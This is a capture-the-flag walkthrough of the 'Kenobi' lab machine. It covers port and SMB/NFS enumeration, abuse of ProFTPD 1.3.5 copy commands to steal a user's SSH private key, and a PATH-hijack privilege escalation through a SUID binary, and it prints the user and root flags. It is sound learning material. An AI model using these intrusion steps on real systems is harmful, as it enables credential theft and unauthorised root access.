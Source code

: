 # Kenobi

### Deploy the vulnerable machine
- Scan the machine with nmap, how many ports are open?

          nmap 10.10.93.61 --min-rate=2000 -n -Pn  
        Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 06:58 EDT
        Nmap scan report for 10.10.93.61
        Host is up (0.047s latency).
        Not shown: 993 closed tcp ports (conn-refused)
        PORT     STATE SERVICE
        21/tcp   open  ftp
        22/tcp   open  ssh
        80/tcp   open  http
        111/tcp  open  rpcbind
        139/tcp  open  netbios-ssn
        445/tcp  open  microsoft-ds
        2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
`7`

### Enumerating Samba for shares
- Using the nmap command above, how many shares have been found?

      nmap --script smb-enum-shares.nse -p445 10.10.93.61
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 07:00 EDT
      Nmap scan report for 10.10.93.61
      Host is up (0.052s latency).
      
      PORT    STATE SERVICE
      445/tcp open  microsoft-ds
      
      Host script results:
      | smb-enum-shares: 
      |   account_used: guest
      |   \\10.10.93.61\IPC$: 
      |     Type: STYPE_IPC_HIDDEN
      |     Comment: IPC Service (kenobi server (Samba, Ubuntu))
      |     Users: 1
      |     Max Users: <unlimited>
      |     Path: C:\tmp
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.93.61\anonymous: 
      |     Type: STYPE_DISKTREE
      |     Comment: 
      |     Users: 0
      |     Max Users: <unlimited>
      |     Path: C:\home\kenobi\share
      |     Anonymous access: READ/WRITE
      |     Current user access: READ/WRITE
      |   \\10.10.93.61\print$: 
      |     Type: STYPE_DISKTREE
      |     Comment: Printer Drivers
      |     Users: 0
      |     Max Users: <unlimited>
      |     Path: C:\var\lib\samba\printers
      |     Anonymous access: <none>
      |_    Current user access: <none>
      
      Nmap done: 1 IP address (1 host up) scanned in 9.54 seconds
  `3`

- Once you're connected, list the files on the share. What is the file can you see? <br />
![image](https://github.com/user-attachments/assets/be5aece6-70a3-4d49-aeb1-57ed2279cf89)<br />
`log.txt`. This file shows us some interesting commands used by the user 'kenobi' to create ssh keys: <br />
![image](https://github.com/user-attachments/assets/50276114-ff1a-452b-8a4b-edc1a5c870f1) <br />

- What port is FTP running on? `21`
- What mount can we see?

      nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.93.61
      Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 07:06 EDT
      Nmap scan report for 10.10.93.61
      Host is up (0.047s latency).
      
      PORT    STATE SERVICE
      111/tcp open  rpcbind
      | nfs-showmount: 
      |_  /var *
      
      Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
`/var`

### Gain initial access with ProFtpd
- Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port. What is the version? <br />
![image](https://github.com/user-attachments/assets/9710dfaa-b739-4f29-9d4f-fe7a6b95b79f)<br />
`1.3.5`
- We can use searchsploit to find exploits for a particular software version. Searchsploit is basically just a command line search tool for exploit-db.com. How many exploits are there for the ProFTPd running? <br />
![image](https://github.com/user-attachments/assets/d1833b74-ba1d-4f3b-8a33-6cc4eced42aa)<br />
`4`
- What is Kenobi's user flag (/home/kenobi/user.txt)? <br />
The ProFTPD version implements the SITE CPFR and SITE CPTO commands, with copies and moves files directly on the server. Since we have access to the NFS share on /var/, and since we know from the `log.txt` file that the user 'kenobi' created an ssh key pair, we can move the private key inside the nfs shared file system.
![image](https://github.com/user-attachments/assets/61ee75fa-800d-4f24-b157-4ca2414d02a5) <br />
Now let's try to mount the nfs file system to see if we can find the id_rsa file we just moved:

      mkdir mnt 
      mkdir mnt/kenobiNFS
      sudo mount 10.10.93.61:/var mnt/kenobiNFS
      ls -la mnt/kenobiNFS/tmp
And there we have our private key: <br />
![image](https://github.com/user-attachments/assets/7799aa03-c720-49eb-93b9-b90f209dc957)<br />
We can now use it to log into kenobi's account: 

    cp mnt/kenobiNFS/tmp/id_rsa .
    chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.93.61
![image](https://github.com/user-attachments/assets/b07caa29-f1a6-4601-ab98-d30e4b2f4e0e) <br />
The user flag is: `d0b0f3f53b6caa532a83915e19224899`



### Privilege Escalation with Path Variable Manipulation
- What file looks particularly out of the ordinary?
      
      find / -perm -04000 2>/dev/null
        /sbin/mount.nfs
        /usr/lib/policykit-1/polkit-agent-helper-1
        /usr/lib/dbus-1.0/dbus-daemon-launch-helper
        /usr/lib/snapd/snap-confine
        /usr/lib/eject/dmcrypt-get-device
        /usr/lib/openssh/ssh-keysign
        /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
        /usr/bin/chfn
        /usr/bin/newgidmap
        /usr/bin/pkexec
        /usr/bin/passwd
        /usr/bin/newuidmap
        /usr/bin/gpasswd
        /usr/bin/menu
        /usr/bin/sudo
        /usr/bin/chsh
        /usr/bin/at
        /usr/bin/newgrp
        /bin/umount
        /bin/fusermount
        /bin/mount
        /bin/ping
        /bin/su
        /bin/ping6

`/usr/bin/menu`
- Run the binary, how many options appear? <br />
![image](https://github.com/user-attachments/assets/87d17135-8d5f-49ad-8d68-a0c0051dc7ae)<br />
`3`
- What is the root flag (/root/root.txt)? <br />
If we run the `strings` command on the binary, we can see that the program calls the "curl" command, but it does not call the full path of curl (/usr/bin/curl), but calls the relative path, since it's in the same directory <br />
![image](https://github.com/user-attachments/assets/e07db223-9b1c-41b2-83ec-383286d457ba) <br />
We can exploit this by creating a file named "curl" inside another folder, for example /tmp, and then modify our environment variable $PATH, by adding /tmp at the beginning of PATH. So here's the list of commands to run:

      cd /tmp
      echo "/bin/sh" > curl
      export PATH=/tmp:$PATH

  ![image](https://github.com/user-attachments/assets/c61791fd-abf9-42cc-83e9-bfe6041e065c)<br />
  Run `cat /root/root.txt` to get the root flag: `177b3cd8562289f37382721c28381f02`

